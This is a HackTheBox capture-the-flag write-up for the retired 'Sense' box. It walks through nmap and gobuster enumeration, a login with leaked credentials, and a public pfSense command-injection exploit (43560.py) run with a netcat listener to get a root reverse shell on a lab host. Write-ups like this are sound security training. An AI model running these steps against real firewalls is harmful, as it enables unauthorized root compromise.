

hackthebox Sense
Released: 21st October 2017 / Pwned: 26th September 2019 - [+] Solved whilst Retired
Sense is a relatively simple box. The point at which you might be caught out is when brute-forcing for directories.
Summary
• Directory brute-force with directory-list-2.3-medium.txt wordlist and search for .txt extensions using gobuster
• Login with credentials found from brute-forcing
• Grab pfSense version from dashboard, and searchsploit for exploits
• Run exploit against /status_rrd_graph_img.php, and drop straight into a root shell
1) Nmap
Briefly scan for all open TCP ports on the box, and then run service detection and default scripts against those open ports.
TCP all-ports scan:
nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.60
Service detection, default scripts and OS detection against open ports:
nmap -p 80,443 -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.60
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/sense# mkdir nmap
root@gotham:~/ctf/sense# nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.60
[...]
PORT STATE SERVICE
80/tcp open http
443/tcp open https
root@gotham:~/ctf/sense# nmap -p 80,443 -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.60
[...]
PORT STATE SERVICE VERSION
80/tcp open http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open ssl/https?
|_ssl-date: ERROR: Script execution failed (use -d to debug)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Comau embedded (92%), FreeBSD 8.X (85%), OpenBSD 4.X (85%)
OS CPE: cpe:/o:freebsd:freebsd:8.1
Results analysis:
• 80/http and 443/https - A website is running!
2) 80/http & 443/https
Visit http://10.10.10.60, and you'll be redirected to https://
We're at a pfSense login page.
pfSense is an open source firewall and router distribution based on FreeBSD.
The default pfSense configuration is configured to lock you out after 15 failed login attempts for 24 hours, so this login form isn't worth brute-forcing.
2a) gobuster
Run gobuster against the target.
Unfortunately, you have to be pretty specific with your wordlist to find what you need in order to progress.
Use directory-list-2.3-medium.txt and search for .txt extensions.
You'll find 2 interesting results - changelog.txt and system-users.txt
root@gotham:~/ctf/sense# gobuster dir -e -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt -k
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: https://10.10.10.60
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Extensions: txt
[+] Expanded: true
[+] Timeout: 10s
===============================================================
[...]
https://10.10.10.60/changelog.txt (Status:200)
https://10.10.10.60/system-users.txt (Status: 200)
2b) changelog.txt and system-users.txt
/changelog.txt says that, depsite patching, pfSense is still vulnerable to 1 exploit.
/system-users.txt reveals a set of credentials.
The default password for pfSense is pfsense (which you can find via google).
Rohit / pfsense fails, because /system-users.txt is misleading.
rohit / pfsense succeeds, because why not.
3) 43560.py exploit
The pfSense dashboard says that the running pfSense version is 2.1.3.
searchsploit for any pfSense exploits.
There are lots of cross-site scripting exploits.
You can pipe the searchsploit results to grep -v to remove them.
root@gotham:~/ctf/sense/443# searchsploit pfsense | grep -v Cross-Site
------------------------------------------------------- ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
------------------------------------------------------- ----------------------------------------
pfSense - (Authenticated) Group Member Remote Command | exploits/unix/remote/43193.rb
pfSense 2.1 build 20130911-1816 - Directory Traversal | exploits/php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities | exploits/php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal | exploits/php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution | exploits/php/webapps/43128.txt
pfSense 2.4.4-p1 (HAProxy Package 0.59_14) - Persisten | exploits/php/webapps/46538.txt
pfSense 2.4.4-p3 (ACME Package 0.59_14) - Persistent C | exploits/php/webapps/46936.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command I | exploits/php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabili | exploits/php/webapps/39709.txt
------------------------------------------------------- ----------------------------------------
Command injection vulns sound good.
Upon examining the exploits, 43560.py looks good.
pfSense < 2.1.4 fits our running version - 2.1.3, /status_rrd_graph_img.php exists, and the exploit is a neat python script that sends us a reverse shell.

Save the exploit path to your clipboard with searchsploit -p and the exploit ID.
I copy the exploit into a working directory of mine so that I don't overwrite the original.
root@gotham:~/ctf/sense/443# searchsploit -p 43560
Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
URL: https://www.exploit-db.com/exploits/43560
Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators
Copied EDB-ID #43560's path to the clipboard.
root@gotham:~/ctf/sense/443# cp /usr/share/exploitdb/exploits/php/webapps/43560.py .
root@gotham:~/ctf/sense/443# mv 43560.py cmdinjection.py
Start listener on your attacking machine to receive the reverse shell
root@gotham:~/ctf/sense# nc -lvnp 9001
listening on [any] 9001 ...
And run the exploit.
Details on how to run it are included in the script.
root@gotham:~/ctf/sense/443# python3 cmdinjection.py --rhost 10.10.10.60 --lhost 10.10.14.12 --lport 9001 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
You should receive a shell on your listener :)
pfSense must have been running as root because, fortunately, we have a root shell.
[...]
listening on [any] 9001 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.60] 33493
sh: cant access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# ls -l /home
total 8
drwxrwxr-x 2 root operator 512 Oct 14 2017 .snap
drwxr-xr-x 2 rohit nobody 512 Oct 14 2017 rohit
# cat /home/rohit/user.txt
8721327c...
# cat /root/root.txt
d08c32a5...